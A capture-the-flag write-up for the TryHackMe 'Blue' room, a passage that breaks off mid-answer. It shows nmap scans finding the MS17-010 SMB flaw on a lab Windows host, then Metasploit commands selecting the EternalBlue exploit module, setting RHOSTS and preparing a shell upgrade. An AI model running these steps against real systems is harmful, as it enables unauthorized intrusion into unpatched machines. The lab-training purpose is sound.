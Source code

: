 [blue - TryHackMe](https://tryhackme.com/room/blue) | Cya-nyde
==============================================================

## Recon

### How many ports are open with a port number under 1000?

- <code>nmap -p 1-1000 *target ip*</code> to list all open ports under port 1000

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **3** results returned

### What is this machine vulnerable to?

- <code>sudo nmap -sV -script=vuln -T5 -p 135,139,445 *target ip*</code> to run vuln scan on discovered open ports


```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
MAC Address: 16:FF:CE:C9:65:03 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

> The scan shows that the target is vulnerable to **ms17-010**

## Gain Access

- Use `msfconsole` to open *metasploit*

### Find the exploitation code we will run against the machine. What is the full path of the code? 

- `search ms17-010` to list metasploit modules related to this exploit

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

> The full path to the exploit is **exploit/windows/smb/ms17_010_eternalblue**

### Show options and set the one required value. What is the name of this value?

- `use 0` or `use exploit/windows/smb/ms17_010_eternalblue` to use the eternalblue module
- `show options` to list options

> The only empty option that we need to change is **RHOSTS**

## Escalate

### Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

- *ctrl + z* to background session after initial foothold on target
- `search shell to meterpreter` to find module to stabilize shell

> The module to use is called **
